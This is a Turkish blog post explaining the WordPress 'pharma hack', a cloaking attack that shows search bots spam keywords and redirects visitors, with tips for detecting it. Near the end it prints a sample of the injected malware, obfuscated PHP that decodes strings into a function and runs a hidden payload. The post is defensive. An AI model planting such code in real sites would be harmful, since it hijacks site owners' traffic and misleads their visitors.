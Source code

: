 ```yaml
---
title: "Pharma hack (Google Cloaking Hack) nedir?"
slug: pharma-hack-google-cloaking-hack-nedir
date: 2012-01-02
url: http://mfyz.com/tr/pharma-hack-google-cloaking-hack-nedir/
tags: ["cloak","cloaking","google","hack","pharma","php","seo","Sunucu Programlama","wordpress"]
category: Sunucu Programlama
migration: {"wpId":159,"wpPostDate":"2012-01-02T03:09:02.000Z"}
lang: tr
---
```


#### Pharma hack nedir?

Pharma hack bır çeşit SEO saldırısıdır. Asıl adı Google Cloaking Hack'dır. Sitenizi html çıktısını kullanıcıya göre manipüle etmek üzerine kuruludur. Pharma hack adını genellikle internette cinsel sağlık ürünleri veya besin takviyesi satan şirketlerin bu hack ile trafik kazanmaya çalışmasından almıştır. Yani bu hack sadece sitenizin arama motoru trafiğini kesmez. Tabi siz analitics yazılımlarda bir trafik kaybı görmezsiniz. Sadece bounce rate'iniz her gün yükselir ve dış trafiğiniz artar. Bu da pagerank'ınızı kaybetmeninizi sağlayabilir.

Büyük tehlike ise sitenizin sansürlenmesi. Türkiye'de son dönemde birçok sitenin/blogun sansürlerden dolayı engellendiğini görüyorsunuz. Bu filtreler genelde halka açık ortamlar, eğitim kurumları gibi alanlarda çok daha etkin. Yani zararsız bir siteye sahip olsanız bile bu hack ile MEB ve BTK'nın google indeksleri ile edindiği site bilgisi genelde cinsel sağlık ürünleri olacağı için muhtemelen siz o içeriğe sahip olmasanız bile okullar, internet cafe'ler gibi yerlerden otomatik olarak filtrelenmiş olacaksınız.

#### Nasıl oluyor?

Pharma hack sitenize doğrudan ziyaretle anlayamayacağınız bir saldırıdır. Siteniz doğrudan gelen ziyaretçilere normal çıktısını verir ve tarayıcıda doğrudan sitenize giren insanlar sitenizi görmeye devam ederler, böylece siz de anlamazsınız pharma hack altında olduğunuzu.

Ama arama motoru botları sitenizi taramaya çalıştığı zaman sitenizin hack kodu sitenizin sayfa başlığı, anahtar kelimeleri gibi meta etiketlerini değiştirip sayfa içeriğinde istedikleri anahtar kelimeleri de ekleyerek sitenizin çıktısını manipule eder. Böylece pagerank'ınızı kullanarak arama motorlarından gelen trafiğinizi çalarlar. Böylece sitenize ait tüm google indeksleri bir sonraki güncellemede o anahtar kelimeleri alır. Eğer siteniz yüksek page rankına sahipse o anahtar kelimelerde üst sıralarda çıkar ve kullanıcı linke tıkladıgı zaman sayfanızdaki ufak bir javascript kodu kullanıcıyı başka bir sunucuya yönlendirir. Arama motoru trafiğiniz yanlış içerikle sunulur ve kısaca arama motoru trafiğiniz başka bir siteye yönlendirilir.

#### Sitenizde pharma hack var mı?

Sitenizi sayfaları kontrol ederek pharma hack olup olmadığını anlayamazsınız. Birkaç yolu var;

1) Tarayıcınızın User Agent'ını GoogleBot olarak değiştirip sitenize girebilir, sayfalarınız öyle kontrol edebilirsiniz.

2) Google Webmaster Tools'a kayıt olup sitenizi ekleyip google botun sitenizi nasıl taradığını görebilirsiniz. Googlebot site sitenizin verdiği HTML çıktısını gösterecektir. Meta etiketlerinizi ve sayfa içeriğinizi kontrol edip fakrlı olup olmadığını görebilirsiniz.

#### Ne tür uygulamalarda yapıyorlar?

Benim gördüğüm örnekleri popüler php hostinglerde ya sunucu kontrolünü ele geçirdikten sonra tüm hesaplara ya da sadece sizin hesabınızı ele geçirdilerse sizin hesabınızda yapılan birkaç ufak php numarasıyla sayfalarınızı arama motoru botlarında farklı render etme üzerine kuruludur. Eğer bir wordpress bloguna veya joomla, drupal gibi bir CMS kullanıyorsanız muhtemel olarak tehlike altındasınız demektir çünkü ele geçirilmesi, gizlenmesi en kolay ve hackerların hedef kitlesidir.

Örnek bir pharma hack kodu göstermem gerekirse:
```
$check_tmg_password_reset_key = 'QN9Mrh7F=4?C!N^NP.NJ16YH6K66G=+BOeHeQ7D?A!"
CMD$JT,UTP@#3kSZ=j8;>?=B5$(v+}k~)tKkwz6puT|_P{-[11):V;Hblc<eyfau+Z4r29[dID2ThIY.E^A|AHcN@E-
woZPd'^'48X!Z(P<TZY/@:;f6G"/nQ<<i(YX3XE6<MjJ9X)ZnLD:7kE.9E;z=&ZIE05PEHZ
PZQmyMJY{5;*h8d;?*b19{,7 Tl/EC@X#O-M<+l18*N[X,Z]FT+K96]$E+8] 
q##t{R\`0+JUFsy_';
$make_ao_site_theme_from_oldschool = '"\`E\`\`e_Fe$"dai.'|'Are!t!Y tncT)oF';

$wp_rzc_newPage = $make_ao_site_theme_from_oldschool('',$check_tmg_password_reset_key);
$wp_rzc_newPage();

```
Bu kod wordpress bloglar için özellikle yazılmış bir pharma hack kodu. Genelde sitenizde her sayfada çalıştırılan bir dosyada yer alırlar. (bootstrap.php, common.php, db.php vs...)